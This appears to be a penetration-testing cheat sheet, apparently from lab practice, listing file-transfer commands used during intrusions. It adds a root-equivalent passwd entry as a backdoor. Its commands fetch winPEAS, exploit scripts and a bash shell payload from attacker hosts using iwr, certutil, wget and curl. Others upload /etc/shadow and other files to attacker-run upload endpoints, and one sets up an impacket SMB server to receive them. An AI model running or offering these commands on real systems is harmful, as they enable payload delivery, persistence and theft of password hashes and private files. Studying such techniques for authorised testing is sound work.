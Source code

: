 ```jsx
root2:{HASH}:0:0:root:/root:/bin/bash
```

# File Transfers

## Download → From kali

```jsx
iwr -uri http://192.168.45.205/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://10.10.170.141:8080/winPEASx64.exe -UseBasicParsing -OutFile C:\Users\celia.almeda\Documents\winPEASx64.exe
```

```jsx
certutil -urlcache -split -f http://192.168.45.213/exploit.ps1 C:\Users\tony\exploit.ps1
```

```jsx
copy \\192.168.45.213\Share\exploit.ps1 .
```

```jsx
wget 192.168.45.194/payload/bash-shell -O /tmp/shell
```

```jsx
curl http://192.168.45.213/exploit.ps1 -o exploit.ps1
```

## Upload → To kali

### Upload via Apache2

```jsx
sudo systemctl restart apache2
```

```jsx
http://127.0.0.1/upload.html.
```

```jsx
curl --form "uploadedfile=@/etc/shadow" http://192.168.45.3/upload.php
```

```jsx
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.48.3/uploadWindows.php', '.\Secrets.jpg')
```

### Upload via SMB

```jsx
impacket-smbserver uploads . -smb2support  -username kali -password kali
```
